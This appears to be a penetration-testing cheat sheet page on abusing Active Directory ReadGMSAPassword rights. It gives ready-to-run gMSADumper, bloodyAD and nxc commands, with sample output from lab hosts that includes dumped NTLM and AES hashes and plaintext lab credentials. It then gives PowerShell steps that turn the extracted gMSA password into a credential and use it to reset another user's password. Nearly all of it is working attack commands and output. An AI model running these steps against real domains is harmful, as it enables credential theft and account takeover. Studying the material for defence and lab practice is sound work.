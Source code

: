 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Directory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

```console {class="sample-code"}
$ python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::745bd2c68dfc101a74f48d87027c7dc6
svc_int$:aes256-cts-hmac-sha1-96:8b2e9edb20258a45ad9084c89e7df761f3b85da5abd92849c150d4ed43f1056f
svc_int$:aes128-cts-hmac-sha1-96:798345b20bd9a8866a87b351c0ad68f3
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

```console {class="sample-code"}
$ python3 bloodyAD.py -d intelligence.htb -u ted.graves -p 'Mr.Teddy' --host intelligence.htb get object 'svc_int$' --attr msDS-ManagedPassword 

distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:80d4ea8c2d5ccfd1ebac5bd732ece5e4
msDS-ManagedPassword.B64ENCODED: wcVVmCKWYOZszus92zsZDFqtPFYu960EdHowLnWB5vChR4R/yj+hgVusvxgnG1OYREO70qnEiCEfP62qLZluS/UHz53T94CItJ+YxA6W5jiWTy0L03JgE1m87NCnxrzGSXHXjp4Ja1OKDde9RrIaqGN7C7cFZth05q1bOOO+x8+jdD1xRXHKgig5LDk4inLQ1xqu7Lc4vT/hIIPx2dbS0FNwGtKu2NTTVAAB/LgVwYnfMNkpti2T0cE8R12HzjGVLV/54GLU1O8iLyXdnfgAQUdnccIlSacJ3XItjjeTWuOwCKQKmc0o8BbE+rHjA5dotmBiBHsE9bw3YsCh0SNTeA==
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <DC> --gmsa
```

```console {class="sample-code"}
$ nxc ldap -u ted.graves -p 'Mr.Teddy' -d intelligence.htb dc01.intelligence.htb --gmsa
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\ted.graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 80d4ea8c2d5ccfd1ebac5bd732ece5e4
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity '<TARGET_NAME>' -Properties 'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $mp = $gmsa.'msDS-ManagedPassword

PS C:\programdata> ConvertFrom-ADManagedPasswordBlob $mp

Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾ롤
                            ᒛ�䬁ማ譿녓鏶骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 2019.19:45:41.4967000
UnchangedPasswordInterval : 2019.19:40:41.4967000
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential '<TARGET_NAME>', $SecPass
```

```console {class="sample-code"}
PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential 'BIR-ADFS-GMSA', $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity '<ANOTHER_TARGET_NAME>' -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<NEW_PASSWORD>' -force)} -Credential $cred
```

```console {class="sample-code"}
PS C:\programdata> Invoke-Command -ComputerName . -ScriptBlock {Set-ADAccountPassword -Identity 'tristan.davies' -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Test1234' -force)} -Credential $cred
```

{{< /tabcontent >}}
